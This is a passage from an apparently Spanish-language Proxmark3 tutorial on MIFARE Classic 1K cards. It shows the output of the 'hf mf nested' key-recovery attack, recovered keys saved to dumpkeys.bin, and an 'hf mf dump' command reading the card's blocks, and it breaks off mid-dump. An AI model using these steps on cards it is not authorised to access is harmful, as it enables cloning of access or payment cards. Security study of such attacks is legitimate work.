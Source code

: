 ```
    |002|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
    |003|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
    |004|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
    |005|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
    |006|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
    |007|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
    |008|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
    |009|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
    |010|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
    |011|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
    |012|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
    |013|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
    |014|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
    |015|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
    |---|----------------|---|----------------|---| 
    Printing keys to binary file dumpkeys.bin... 
```

* hf                = high frequency 
* mf                = mifare 
* nested            = nested attack
* 1                 = tarjeta de 1k 
* 2                 = Número de bloque
* ffffffffffff      = clave encontrada
* d                 = Extraer las claves a un archivo dumpkeys.bin


Extraer información de la tarjeta
---

Ya una vez obtenidas todas las claves de la tarjeta y generado nuestro archivo dumpkeys.bin 
realizaremos la extracción de toda la información de la tarjeta.

```
    proxmark3> hf mf dump 
    |-----------------------------------------|          
    |------ Reading sector access bits...-----|          
    |-----------------------------------------|          
    #db# READ BLOCK FINISHED          
    #db# READ BLOCK FINISHED          
    #db# READ BLOCK FINISHED          
    #db# READ BLOCK FINISHED          
    #db# READ BLOCK FINISHED          
    #db# READ BLOCK FINISHED          
    #db# READ BLOCK FINISHED          
    #db# READ BLOCK FINISHED          
    #db# READ BLOCK FINISHED          
    #db# READ BLOCK FINISHED          
    #db# READ BLOCK FINISHED          
    #db# READ BLOCK FINISHED          
    #db# READ BLOCK FINISHED          
    #db# READ BLOCK FINISHED          
    #db# READ BLOCK FINISHED          
    #db# READ BLOCK FINISHED          
    |-----------------------------------------|          
    |----- Dumping all blocks to file... -----|          
    |-----------------------------------------|          
    #db# READ BLOCK FINISHED          
    Successfully read block  0 of sector  0.          
    #db# READ BLOCK FINISHED          
    Successfully read block  1 of sector  0.          
    #db# READ BLOCK FINISHED          
    Successfully read block  2 of sector  0.          
    #db# READ BLOCK FINISHED          
    Successfully read block  3 of sector  0.          
```